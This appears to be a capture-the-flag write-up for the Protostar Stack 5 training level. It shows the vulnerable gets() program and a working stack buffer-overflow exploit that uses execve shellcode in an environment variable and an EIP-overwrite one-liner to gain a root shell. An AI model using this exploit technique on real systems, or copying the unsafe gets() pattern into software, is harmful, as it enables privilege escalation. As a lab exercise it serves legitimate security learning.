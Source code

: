 # Protostar - Stack 5

### About ###

>Stack5 is a standard buffer overflow, this time introducing shellcode.
>
>This level is at /opt/protostar/bin/stack5
>
> **Hints**

> - At this point in time, it might be easier to use someone elses shellcode
> - If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
> - remove the int3s once your shellcode is done.


### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### Solution 

This time we can't use the `win` function, we will need to inject our own code into the process.

The shellcode we will use is available [here](http://shell-storm.org/shellcode/files/shellcode-575.php). We will use an environment variable to store our shellcode.

```
user@protostar:/tmp$ export SHELLCODE=$(python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")
```

The following c program will give us the address of `SHELLCODE` in the stack.

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[])
{
       	printf("%p\n", getenv(argv[1]));
       	return 0;
}
```

```
user@protostar:/tmp$ gcc -o getenv getenv.c
user@protostar:/tmp$ ./getenv SHELLCODE
0xbffff8b8
```

Now we can overwrite the saved `eip` with `0xbffff8b8` and get root access to the machine.

```
user@protostar:/tmp$ id
uid=1001(user) gid=1001(user) groups=1001(user)

user@protostar:/tmp$ (python -c "print 'A'*$((76))+'\xb8\xf8\xff\xbf'"; cat;) | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

> `cat` is used in the piped input in order to keep stdin open